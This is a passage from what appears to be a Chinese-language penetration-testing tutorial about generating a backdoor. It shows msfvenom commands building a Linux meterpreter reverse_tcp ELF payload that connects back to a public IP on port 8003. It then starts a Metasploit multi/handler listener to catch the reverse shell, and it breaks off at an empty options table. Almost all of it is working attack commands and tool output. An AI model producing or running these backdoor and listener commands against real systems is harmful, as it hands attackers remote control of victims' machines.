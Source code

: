 ![image-20211015171521863](/assets/image-20211015171521863.png)



生成后门

```
┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ msfvenom -a x64  --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=175.24.115.4 LPORT=8003 -b "\x00" -f elf -o xuegod
Found 4 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=55, char=0x00)
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 175 (iteration=0)
x64/xor chosen with final size 175
Payload size: 175 bytes
Final size of elf file: 295 bytes
Saved as: xuegod
```



开始利用：

```shell
┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ sudo msfdb run                         #启动msfdb
msf6 > use exploit/multi/handler             #使用监听模块
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp   #设置反弹shell的payload
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 172.31.50.101       #设置本机ip为监听ip
LHOST => 172.31.50.101
msf6 exploit(multi/handler) > show options                     #查看详情

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


```